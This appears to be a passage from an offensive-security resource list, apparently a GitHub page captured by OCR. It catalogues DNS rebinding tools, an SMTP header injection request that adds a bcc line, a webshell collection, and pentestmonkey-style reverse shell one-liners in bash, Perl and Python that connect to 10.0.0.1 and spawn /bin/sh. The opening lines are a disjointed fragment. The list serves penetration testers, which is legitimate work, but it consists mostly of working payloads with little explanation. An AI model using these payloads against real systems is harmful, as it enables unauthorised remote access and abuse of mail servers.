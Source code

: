 ```http://localhost:9001/2018-06-01/runtime/invocation/next```
<br># Hackers could take over millions of accounts on Grammarly, Vidio and Bukalapak.

### DNS Rebinding
https://github.com/nccgroup/singularity
<br># Singularity of Origin is a tool to perform DNS rebinding attacks. It includes the necessary components to rebind the IP address of the attack server DNS name to the target machine's IP address and to serve attack payloads to exploit vulnerable software on the target machine.

https://github.com/brannondorsey/dns-rebind-toolkit
<br># DNS Rebind Toolkit is a frontend JavaScript framework for developing DNS Rebinding exploits against vulnerable hosts and services on a local area network (LAN).

https://github.com/brannondorsey/whonow
<br># A malicious DNS server for executing DNS Rebinding attacks on the fly.

https://nip.io
<br># Dead simple wildcard DNS for any IP Address

https://sslip.io
<br># sslip.io is a DNS (Domain Name System) service that, when queried with a hostname with an embedded IP address, returns that IP Address.

http://1u.ms/
<br># This is a small set of zero-configuration DNS utilities for assisting in detection and exploitation of SSRF-related vulnerabilities. It provides easy to use DNS rebinding utility, as well as a way to get resolvable resource records with any given contents.

https://github.com/Rhynorater/rebindMultiA
<br># rebindMultiA is a tool to perform a Multiple A Record rebind attack.

### SMTP Header Injection
https://www.acunetix.com/blog/articles/email-header-injection/
<br># It is common practice for web pages and web applications to implement contact forms, which in turn send email messages to the intended recipients. Most of the time, such contact forms set headers. These headers are interpreted by the email library on the web server and turned into resulting SMTP commands, which are then processed by the SMTP server.
<br>```POST /contact.php HTTP/1.1```
<br>```Host: www.example2.com```
<br>``` ```
<br>```name=Best Product\nbcc: everyone@example3.com&replyTo=blame_anna@example.com&message=Buy my product!```

### Web Shell
https://www.kali.org/tools/webshells/
<br># A collection of webshells for ASP, ASPX, CFM, JSP, Perl, and PHP servers.

### Reverse Shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
<br># If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
<br># Bash
<br>```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

<br># PERL
<br>```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

<br># Python
<br>```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

```
